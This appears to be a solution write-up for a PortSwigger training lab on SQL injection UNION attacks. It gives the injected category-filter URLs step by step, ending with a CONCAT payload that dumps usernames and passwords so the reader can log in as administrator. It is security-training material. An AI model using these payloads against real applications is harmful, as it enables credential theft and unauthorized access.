

# SQL injection UNION attack, retrieving multiple values in a single column

**Lab Url**: [https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

## Objective

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

## Solution

The query returns two columns, but only the second column is displayed in the response. This means extracting both `username` and `password` in separate columns won't work. Instead, use `CONCAT()` to combine both values into a single column.

### Step 1: Determine the column count

```bash
/filter?category=Gifts' ORDER BY 2--
```

The query returns **two columns**.

### Step 2: Confirm only one column is displayed

A `UNION SELECT` with both columns fails — only the second column is rendered:

```bash
/filter?category=Gifts' UNION SELECT username, password FROM users--  →  error
/filter?category=Gifts' UNION SELECT NULL, username FROM users--      →  success
```

### Step 3: Concatenate both values into one column

Use `CONCAT()` to combine `username` and `password` into a single string, separated by a delimiter:

```bash
/filter?category=Gifts' UNION SELECT NULL, CONCAT(username,'-',password) FROM users--
```



The response displays each user as `username-password`. Log in as `administrator` with the retrieved password to solve the lab.
